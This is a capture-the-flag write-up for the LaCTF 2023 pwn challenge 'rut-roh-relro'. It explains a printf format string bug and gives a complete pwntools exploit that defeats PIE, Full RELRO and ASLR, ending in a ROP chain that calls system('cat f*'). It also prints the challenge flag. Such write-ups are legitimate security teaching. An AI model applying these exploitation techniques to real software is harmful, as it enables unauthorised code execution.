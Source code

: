 ```yaml
---
layout: post
title: "LaCTF 2023 - rut-roh-relro [Pwn]"
categories: ctf
tags: pwn ikerl
date: 2023-02-12 23:00:00 +0100
author: ikerl
---
```


For this challenge, we are given a compiled ELF file and its corresponding C source code. The program has two critical format string vulnerabilities, which enable an attacker to easily read and write memory. Despite being compiled with Full RELRO and PIE, making exploitation more difficult, and hosted on a server with strict execution policies, making it difficult to execute certain commands such as `/bin/sh`, the challenge remains to exploit the vulnerabilities present.

The context of the challenge is as follows:

```
My friend keeps writing super insecure C programs but I'm too lazy to fix his code. I'm sure it'll be fine as long as I use enough exploit mitigations, right?
```

## Source code analysis

This is the complete source code of the vulnerable program:

```c
#include <stdio.h>

int main(void) {
    setbuf(stdout, NULL);
    puts("What would you like to post?");
    char buf[512];
    fgets(buf, 512, stdin);
    printf("Here's your latest post:\n");
    printf(buf);
    printf("\nWhat would you like to post?\n");
    fgets(buf, 512, stdin);
    printf(buf);
    printf("\nYour free trial has expired. Bye!\n");
    return 0;
}

```

The program has two vulnerable printf calls that directly execute user input, making them easily exploitable through format string abuse techniques. While finding the vulnerability is straightforward, the real challenge lies in exploiting it to bypass PIE and Full RELRO memory protections and read the flag without relying on `/bin/sh` or similars. In the next section, we will explain how to use these vulnerabilities to achieve this goal.


## Exploitation

The exploitation process can be broken down into the following steps:

- Abusing the first vulnerable printf call to obtain the address of the executable and a stack leak. This allows us to bypass the PIE memory protection and determine the base address of the executable. The stack address leak is also useful in the next step.
- Using the second printf call, we need to modify the return address by replacing it with the address of the main function. This way, the program will not terminate, and we will have two additional vulnerable printf executions.
- In the third call of the vulnerable printf, we locate the addresses of the printf and puts functions by reading the Global Offset Table (GOT). This information enables us to identify the version of libc used by the server and determine the base address of libc.
- Finally, we place the string ``cat f*`` on the stack and call the ``system`` function from libc, thereby reading the flag.

### Leaking the executables base address and the stack

By reading the addresses located at positions 63 and 88 of printf we are able to determine the address of the main function of the executable and the address of the stack.

```python
if LOCAL:
    io = process("./rut_roh_relro")
else:
    io = remote("lac.tf", 31134)

io.recvline()
io.sendline(b"%63$p::%88$p")

io.recvuntil(b"post:")
io.recvline()

leak = io.recvline().replace(b"\n",b"").split(b"::")

leak_pie = int(leak[0].replace(b"0x",b""),16)-0x100
leak_stack = int(leak[1].replace(b"0x",b""),16)
print("ret_address",hex(leak_stack-240))

elf_base = leak_pie-elf.symbols["main"]
print("elf_base",hex(elf_base))
print("main",hex(leak_pie))
```

### Patching program to return main function instead exit

We can calculate the return address by subtracting 240 from the leak obtained in the previous step. By replacing this return address with the address of the main function of the executable, we will jump back to the beginning of the program instead of exiting it.

```python
context.clear(arch = 'amd64')

payload_ret_main = fmtstr_payload(6, {leak_stack-240: leak_pie}, write_size='short')
io.sendline(payload_ret_main)
io.recvuntil(b"Bye!")
```

### Leaking libc version and breaking ASLR

We utilize the third vulnerable printf call to leak the addresses of the printf and puts functions from libc by reading the Global Offset Table (GOT). This allows us to identify the version of libc, determine the base address of libc, and completely bypass the Address Space Layout Randomization (ASLR) memory mitigation

```python
printf_got = leak_pie-elf.symbols["main"]+elf.got["printf"]
puts_got = leak_pie-elf.symbols["main"]+elf.got["puts"]

print("printf_got",hex(printf_got))
print("puts_got",hex(puts_got))

payload_libc_leaks = b"::%8$s::%9$s::::" + p64(printf_got)+p64(puts_got)

io.recvuntil(b"post?")

io.sendline(payload_libc_leaks)

leaks = io.recvuntil(b"post?").split(b"::")

leak_printf = int.from_bytes(leaks[1],"little")
leak_puts = int.from_bytes(leaks[2],"little")
print("leak printf",hex(leak_printf))
print("leak puts",hex(leak_puts))

libc.address = leak_printf - libc.symbols["printf"]
```

### Loading command in the stack and reading the flag

Finally, we create a small Return-Oriented Programming (ROP) chain using the fourth vulnerable printf. The steps are as follows:

- Write the string cat `f*` at a known address on the stack.
- Overwrite the return address with the `pop rdi; ret` gadget, which will set the rdi register to point to the string `cat f*`.
- Execute the `pop rsi; pop r15; ret` gadget to clear the rsi register.
- Call the `system` function, passing `cat f*` as an argument, to read the flag.

```python
# Libc gadgets:
# 0x0000000000026796 : pop rdi ; ret

# Executable gadgets:
# 0x0000000000001279 : pop rsi ; pop r15 ; ret

payload_pwn = fmtstr_payload(6, {leak_stack-240+8: libc.address+0x26796, leak_stack-240+8+8: leak_stack-240+8+8+8+8+8+8+8, leak_stack-240+8+8+8: elf_base+0x1279, leak_stack-240+8+8+8+8: 0, leak_stack-240+8+8+8+8+8: 0, leak_stack-240+8+8+8+8+8+8: libc.symbols["system"], leak_stack-240+8+8+8+8+8+8+8: 0x2a6620746163}, write_size='short')
io.sendline(payload_pwn)

io.recvuntil(b"Bye!")

io.interactive()
```

Flag: `lactf{maybe_ill_add_asan_for_good_measure}`